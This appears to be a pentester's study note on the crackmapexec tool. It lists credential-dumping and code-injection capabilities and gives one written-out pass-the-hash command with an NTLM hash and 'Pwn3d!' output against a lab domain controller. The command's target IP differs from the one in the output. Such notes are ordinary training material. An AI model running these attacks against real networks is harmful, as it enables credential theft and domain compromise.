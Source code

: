 # 💢 crackmapexec

Tags: #💢
Related to:
See also:
Previous: [[SMB Analysis]]

## Description

This package is a swiss army knife for pentesting Windows/Active Directory environments.

From enumerating logged on users and spidering SMB shares to executing psexec style attacks, auto-injecting Mimikatz/Shellcode/DLL’s into memory using Powershell, dumping the NTDS.dit and more.

The biggest improvements over the above tools are:

-   Pure Python script, no external tools required
-   Fully concurrent threading
-   Uses **ONLY** native WinAPI calls for discovering sessions, users, dumping SAM hashes etc…
-   Opsec safe (no binaries are uploaded to dump clear-text credentials, inject shellcode etc…)

Additionally, a database is used to store used/dumped credentals. It also automatically correlates Admin credentials to hosts and vice-versa allowing you to easily keep track of credential sets and gain additional situational awareness in large environments.

## Usage Examples

### Pass-the-hash attack

	crackmapexec smb 10.129.41.19 -u rachel -H e46b9e548fa0d122de7f59fb6d48eaa2

```shell-session
SMB         10.129.43.9     445    DC01      [*] Windows 10.0 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    DC01      [+] INLANEFREIGHT.LOCAL\rachel:e46b9e548fa0d122de7f59fb6d48eaa2 (Pwn3d!)
```

# References